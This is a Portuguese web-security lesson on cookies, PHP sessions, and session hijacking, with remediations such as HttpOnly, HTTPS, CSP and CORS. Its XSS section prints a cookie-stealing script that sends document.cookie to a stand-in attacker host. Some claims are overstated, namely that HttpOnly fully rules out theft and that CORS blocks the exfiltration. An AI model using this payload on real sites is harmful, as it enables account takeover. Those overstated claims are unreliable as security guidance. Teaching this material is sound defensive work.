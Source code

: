 # Cookie e Sessões

## Cookies

_Cookies_ são pequenos fragmentos de informação que um site pode armazenar no computador do usuário para uso posterior. Eles são muito úteis uma vez que o protocolo HTTP não apresenta nenhum meio de tornar as informações de uma conexão persistentes. Se dependêssemos apenas das conexões HTTP, seria impossível, por exemplo, usar um carrinho de compras, pois ao trocar para a página de compra as informações seriam perdidas.

Em um site de jogos de navegador, é muito comum que o progresso do jogo seja salvo em _cookies_, no navegador. Os _cookies_ também são bastante usados para armazenar configurações do cliente, como volume do _player_ de música, cor do fundo do site etc.

Geralmente, os navegadores limitam o tamanho que um _cookie_ pode ter para 4KB, além de apagar _cookies_ que já tiveram sua validade vencida.

Exemplo de _cookie_ feito em PHP:
```php
<?php
    // cookies.php

    if (isset($_COOKIE['cookie_teste'])) {
        echo 'Você JÁ passou por aqui!';
    } else {
        echo 'Você NUNCA passou por aqui.'; 
        //Pode ser que você tenha passado há uma hora, mas o servidor não tem como saber
        setcookie('cookie_teste', 'Algum valor...', time() + 3600);
    }
?>
```
Retirado de https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html.

Esse código implementa um conceito similar à sessão (mas ainda não é uma). Nesse caso, um certo conteúdo pode ser exibido de acordo com o intervalo de tempo desde a última visita. O _cookie_ no código possui uma hora de "vida" (3600 segundos).

Um _cookie_ é de acesso limitado ao site que o criou, de modo a garantir que um site mal intencionado não roube os _cookies_ que o site do seu banco armazenou no seu computador por exemplo.

## Sessões

Agora, vamos ao que, no momento, mais nos interessa. **Os _cookies_ podem ser usados como forma de autenticação**, geralmente armazenando o id de uma **sessão**. É devido às sessões que é possível logar automaticamente em redes sociais - sem precisar entrar com suas credenciais - por muito tempo. Quando o usuário conecta-se, uma sessão é iniciada e o id dessa sessão é salvo em um _cookie_ em seu computador. Este será usado mais tarde para informar ao servidor que o usuário já possui um sessão ativa (e, portanto, não é preciso entrar com usuário e senha novamente). A maioria dos sites que implementam esse recurso estabelecem uma data de expiração da sessão, de modo a invalidar o id salvo no _cookie_.

A grande diferença aqui é que **a sessão é armazenada no servidor**, enquanto **o _cookie_ é armazenado localmente**.

Exemplo de sessão em PHP:
```php
<?php
    // sessions.php

    session_start();

    if (isset($_SESSION['usuario'])) {
        echo "Bem vindo {$_SESSION['usuario']}!";
    } else {
        echo 'Você NUNCA passou por aqui.';
        $_SESSION['usuario'] = 'João';
    }
?>
```
Retirado de https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html

## Falhas

### Uso inocente de _cookies_

É necessário saber como usar os _cookies_. Um exemplo exagerado de mau uso seria um site que lê e salva um _cookie_ `admin=1` para admins e `admin=0` para usuários normais. Na primeira conexão, o _cookie_ não existe, então o site manda o _browser_ salvar `admin=0`. Quando o usuário entra com uma conta de administrador, o site manda o _browser_ mudar o _cookie_ para `admin=1` e o site exibe conteúdo que não era visível. Lindo, não?
O problema com essa forma de autenticação é que bastaria o usuário editar o próprio _cookie_ e alterar o conteúdo (de `admin=0` para `admin=1`) para se tornar administrador do site, burlando todo o "sistema de segurança".

### Session Hijacking (Sequestro de Sessão)

Certo, essa foi uma falha bem besta, mas e se em vez de `admin=0`, o _cookie_ fosse `PHPSESSID=somesessionid` - um _cookie_ identificador de uma sessão legítima?

Basta alguém conseguir ler esse _cookie_ para ter acesso à conta atrelada à sessão. Esse ataque é chamado de **Session Hijacking** (Sequestro de Sessão).

Não há como evitar que alguém com acesso físico ao seu computador (com o navegador aberto na página) obtenha sua sessão, mas se isso ocorreu ele já tem muito mais "poder" sobre seus dados e sessões.

O que é possível é evitar que pessoas mal intencionadas obtenham sua sessão por meio de outros ataques, como **XSS (Cross-Site-script)** e **MITM (Man-In-The-Middle**). O segundo ataque caracteriza-se, basicamente, por haver um atacante entrando no meio de uma conexão não encriptada (HTTP) e lendo todo o tráfego entre a vítima e o site, incluindo os _cookies_ enviados e a sessão. Já o primeiro ataque resume-se no atacante injetar código na página de alguma forma. Esse código injetado pode, em certos casos, ler, modificar e até enviar o conteúdo dos _cookies_ armazenados para algum outro servidor.
([Ler mais sobre XSS](https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/semana-1/Aula01_XSS.md))

#### Exemplo de Session Hijacking por meio de XSS

```html
<script type="text/javascript">
    new Image().src="http://www.sitedoatacante.com.br/cookies.php?c="+encodeURI(document.cookie);
</script>
```
Fonte: http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/

Esse script colocado pelo atacante na página adiciona uma "imagem" na página. O navegador acessa o link indicado para baixar a imagem, mas no link é passado o cookie como parâmetro e o atacante usa um _script_ no site dele para salvar o _cookie_ que possui a sessão. Pronto, agora ele pode entrar na conta e fazer o que quiser! É por essa e por outras que alguns sites pedem para o usuário digitar novamente a senha ao alterar informações sensíveis da conta, como e-mail de recuperação e senha.


## Remediações

* Ataque XSS: definir os _cookies_ com a política HTTP-Only (Leia abaixo)
* Ataque MITM: criptografar a conexão, usando HTTPS ([Ler Mais](https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/semana-1/Aula01_HTTPS.md))

## Extras

### HTTP-ONLY

É sempre bom evitar brechas para ataques XSS, logo uma camada extra de proteção nunca é de mais. Um _cookie_ do tipo HTTP-Only não pode ser modificado por meio de código Javascript, seja ele legítimo (da página original) ou injetado.

Dessa forma, é garantido que não haverá qualquer possibilidade de um _cookie_ ser roubado por meio de injeção de código (XSS).

Como definir um _cookie_ como HTTP-Only em PHP:

```php
//Template:
//setcookie ($name, $value, $expire, $path, $domain, $secure, $httponly);

//Definindo de fato:
setcookie("TesteCookie", "123456", 0, "/", "example.com", false, true);

//Ou, se preferir definir direto no header da response:
header("Set-Cookie: nome=valor; path=/; httpOnly" );
//É desse jeito que os cookies aparecem para o atacante que observa as respostas do servidor

//Por padrão, ao criar uma sessão no PHP, é criado um cookie usado para
//controlar o acesso do usuário na sessão. Normalmente o cookie é chamado
//PHPSESSID. Na configuração padrão esse cookie não é httpOlny. Para ativar o
//parâmetro httpOnly no cookie de sessão do PHP, setar a diretiva
//session.cookie_httponly no php.ini para true:
session.cookie_httponly = true

```
Fonte: http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/

### CSP e CORS
CSP - Content Security Policy - é um _header_ na conexão HTTP ou HTTPS que indica ao navegador diversas medidas de segurança, visando à blindagem contra XSS.

CORS - Cross-Origin Resource Sharing - é um _header_ que o site passa para o navegador, dizendo com quais sites ele pode se conectar por meio da página atual. Esse recurso evita que XSS consiga enviar o _cookie_ roubado para o site do atacante (ainda é possível burlar isso com callbacks em alguns casos).

[Leia mais na aula de XSS](https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/semana-1/Aula01_XSS.md)

## Leia Mais
https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html \
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy \
https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS \
https://developer.mozilla.org/en-US/docs/Tools

---
